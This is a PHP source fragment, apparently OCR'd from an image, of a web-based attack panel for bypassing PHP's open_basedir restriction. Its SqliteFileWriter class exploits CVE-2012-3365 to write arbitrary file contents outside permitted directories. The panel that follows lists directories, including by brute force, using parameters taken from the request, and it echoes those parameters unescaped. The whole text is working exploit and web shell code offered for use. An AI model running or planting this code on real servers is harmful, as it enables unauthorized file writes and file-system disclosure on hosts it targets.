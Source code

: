 ```php
			&& (extension_loaded('sqlite3') || extension_loaded('sqlite'))
			&& (version_compare(phpversion(), '5.3.15', '<=') || (version_compare(phpversion(), '5.4.5', '<=') && PHP_MINOR_VERSION == 4));
	}
	function getDescription() {
		return 'Create a file with custom content exploiting CVE-2012-3365 (disallow overriding). Junk contents may be inserted';
	}
	function write($content) {
		$sqlite_class = extension_loaded('sqlite3') ? 'sqlite3' : 'SQLiteDatabase';
		mkdir(':memory:');
		$payload_path = getRelativePath(getcwd() . '/:memory:', $this->getFilePath());
		$payload = str_replace('\'', '\'\'', $content);
		$database = new $sqlite_class(":memory:/{$payload_path}");
		$database->exec("CREATE TABLE foo (bar STRING)");
		$database->exec("INSERT INTO foo (bar) VALUES ('{$payload}')");
		$database->close();
		rmdir(':memory:');
	}
}

// End of Core
?>
<?php
$action = isset($_GET['action']) ? $_GET['action'] : '';
$cwd = isset($_GET['cwd']) ? $_GET['cwd'] : getcwd();
$cwd = rtrim($cwd, DIRECTORY_SEPARATOR) . DIRECTORY_SEPARATOR;
$directorLister = fallback(array('GlobWrapperDirectoryLister', 'RealpathBruteForceDirectoryLister'));
$fileWriter = fallback(array('DOMFileWriter', 'SqliteFileWriter'));
$fileReader = fallback(array('DOMFileReader'));
$append = '';
?>
<style>
#panel {
  height: 200px;
  overflow: hidden;
}
#panel > pre {
  margin: 0;
  height: 200px;
}
</style>
<div id="panel">
<pre id="dl">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Directory Listing:</legend>Current Directory: <input name="cwd" size="100" value="<?php echo $cwd; ?>"><input type="submit" value="Go">
<?php if (get_class($directorLister) === 'RealpathBruteForceDirectoryLister'): ?>
<?php
$characters = isset($_GET['characters']) ? $_GET['characters'] : $directorLister->characters;
$maxlength = isset($_GET['maxlength']) ? $_GET['maxlength'] : $directorLister->maxlength;
$append = "&characters={$characters}&maxlength={$maxlength}";

$directorLister->setMaxlength($maxlength);
?>
Search Characters: <input name="characters" size="100" value="<?php echo $characters; ?>">
Maxlength of File: <input name="maxlength" size="1" value="<?php echo $maxlength; ?>">
<?php endif;?>
Description      : <strong><?php echo $directorLister->getDescription(); ?></strong>
</fieldset>
```